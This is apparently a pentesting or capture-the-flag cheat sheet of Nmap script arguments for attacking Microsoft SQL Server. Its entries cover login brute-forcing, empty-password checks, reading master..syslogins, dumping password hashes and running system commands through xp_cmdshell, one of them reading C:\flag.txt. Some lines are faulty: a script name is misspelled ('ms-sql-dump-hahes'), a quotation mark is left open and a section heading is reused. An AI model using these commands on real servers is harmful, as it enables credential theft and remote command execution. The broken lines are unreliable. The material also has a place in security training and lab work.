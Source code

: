 # MSSQL

## Get info about mssql 
```bash
--script ms-sql-info
```

## Get ntlm info about mssql 
```bash
--script ms-sql-ntlm-info 
--script-args mssql.instance-port=1433
```

## Brute force
```bash
--script ms-sql-brute 
--script-args userdb=[userfile],passdb=[passfile]
```

## Empty password
```bash
--script ms-sql-empty-password
```

## Execute query
```bash
--script ms-sql-query 
--script-args mssql.username=[name],mssql.password=[pass],ms-sql-query.query="SELECT * FROM master..syslogins"
```

## dump hashes
```bash
--script ms-sql-dump-hahes 
--script-args mssql.username=[name],mssql.password=[pass]
```

## Execute query
```bash
--script ms-sql-xp-cmdshell
--script-args mssql.username=[name],mssql.password=[pass],ms-sql-xp-cmdshell.cmd="ipconfig"

--script-args mssql.username=[name],mssql.password=[pass],ms-sql-xp-cmdshell.cmd="type C:\flag.txt
```





